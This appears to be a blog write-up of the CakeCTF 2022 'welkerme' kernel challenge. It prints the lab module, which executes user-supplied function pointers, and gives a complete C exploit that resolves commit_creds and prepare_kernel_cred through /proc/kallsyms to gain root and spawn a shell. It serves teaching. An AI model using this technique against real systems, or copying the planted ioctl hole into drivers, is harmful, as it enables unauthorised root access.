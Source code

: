 ```yaml
---
layout: post
readtime: true
tags: [kernel]
---
```

### Attachments : [welkerme.tar.gz](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/welkerme_afcc40e7baa18649730945cde6475354.tar.gz) , [compress.sh](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/compress.sh)
<br>

First of all, let's have a look on the source code of the driver.
```c
#include <linux/cdev.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("welkerme - CakeCTF 2022");

#define DEVICE_NAME "welkerme"
#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

static int module_open(struct inode *inode, struct file *filp) {
  printk("'module_open' called\n");
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  printk("'module_close' called\n");
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  long (*code)(void);
  printk("'module_ioctl' called with cmd=0x%08x\n", cmd);

  switch (cmd) {
    case CMD_ECHO:
      printk("CMD_ECHO: arg=0x%016lx\n", arg);
      return arg;

    case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();

    default:
      return -EINVAL;
  }
}

static struct file_operations module_fops = {
  .owner   = THIS_MODULE,
  .open    = module_open,
  .release = module_close,
  .unlocked_ioctl = module_ioctl
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME))
    return -EBUSY;

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

This is the source code of a kernel module. Inserting or loading the module into the kernel creates a device (file) at `/dev/welkerme`. We can interact with the driver using `ioctl`. Calling `ioctl` with the command `CMD_EXEC` i.e `0xc0de0002` would call an arbitrary function pointer supplied by the user as `ioctl` arg. 
```c
```c
case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();
```
```

Before actually doing something, let's have a look on some core concepts related to privilege escalation.

### task_struct
This is the Process Control Block and stores all the information needed by a process. Every task has a `task_struct` object living in memory. 

```c
struct task_struct {
    volatile long state;            // process state (running, stopped, ...)
    void *stack;                    // task's stack pointer
    int prio;                       // process priority
    struct mm_struct *mm;           // memory address space
    struct files_struct *files;     // open file information
    const struct cred *cred;        // credentials
  // ...
};

struct cred {
    // .
    // .
    // .
    kuid_t  uid;        /* real UID of the task */
    kgid_t  gid;        /* real GID of the task */
    kuid_t  suid;       /* saved UID of the task */
    kgid_t  sgid;       /* saved GID of the task */
    kuid_t  euid;       /* effective UID of the task */
    kgid_t  egid;       /* effective GID of the task */
    // .
    // .
    // .
};
```
The `cred` struct stores information about the owner, capabilities,etc. of a process. Privilege escalation is achieved via changing `current_task->cred->euid` to 0. (Might need to change some other id's depending on situation). The following code will do this for us!
```c
commit_creds(prepare_kernel_cred(0));
```
`prepare_kernel_cred` prepares a set of credentials for a kernel service which is committed by passing its return value as an argument to the function `commit_creds`.

Cool, not let's find out the address of `prepare_kernel_cred` and `commit_creds`. To do this, we need to read `/proc/kallsyms` by booting into the kernel as root. Run `debug.sh`, provided by the author. 
```sh
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810726e0 T prepare_kernel_cred

/ # cat /proc/kallsyms | grep commit_creds
ffffffff81072540 T commit_creds
```
Let's write a helper function for calling `commit_creds(prepare_kernel_cred(0))`
```c
void getRoot(){
    void* (*prepare_kernel_cred)(int) = 0xffffffff810726e0;
    void (*commit_creds)(void*) = 0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}
```
After that, we only need to call `ioctl` and supply a pointer to the function `getRoot`

```
ioctl(fd, CMD_EXEC, &getRoot);
system("/bin/sh");
```
Complete exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

void getRoot(){
   void* (*prepare_kernel_cred)(int) = (void*)0xffffffff810726e0;
    void (*commit_creds)(void*) = (void*)0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}

int main(void) {
  int fd = open("/dev/welkerme",O_RDWR);
  if(fd==-1){
    perror("open");
    exit(1);
  }

  ioctl(fd, CMD_EXEC, &getRoot);
  system("/bin/sh");
  close(fd);
  return 0;
}

```
Compile, deliver and run this exploit to escalate privileges to the root!
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/welkerme_1.png"/>

### References
https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/

